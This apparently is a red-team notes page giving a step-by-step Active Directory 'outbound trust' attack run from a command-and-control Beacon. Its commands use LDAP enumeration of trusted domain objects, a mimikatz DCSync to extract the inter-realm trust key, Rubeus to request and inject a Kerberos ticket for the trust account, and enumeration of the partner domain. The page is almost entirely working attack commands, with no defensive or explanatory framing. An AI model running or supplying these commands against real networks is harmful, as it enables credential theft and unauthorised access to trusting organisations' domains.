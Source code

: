 # Outbound Trust Attack

1.  Enumerate the one-way trust.

    ```batch
    ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatName
    ```
2.  On the medium integrity Beacon, get the GUID of the TDO.

    ```batch
    ldapsearch (objectClass=trustedDomain) --attributes name,objectGUID
    ```
3. Obtain the shared inter-realm key from the TDO.
   1. `mimikatz lsadump::dcsync /domain:partner.com /guid:{[GUID]}`
4.  Request a TGT for the trust account using the shared secret.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:PARTNER$ /domain:CONTOSO.COM /dc:lon-dc-1.contoso.com /rc4:[RC4 HASH] /nowrap
    ```
5. On the high integrity Beacon, inject the TGT into a sacrifial logon session.
   1. `make_token CONTOSO\PARTNER$ FakePass`
   2. `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]`
6. Verify the ticket has been injected.
   1. `run klist`
7.  Enumerate the trusted domain.

    ```batch
    ldapsearch (objectClass=domain) --dn DC=contoso,DC=com --attributes name,objectSid --hostname contoso.com
    ```

\

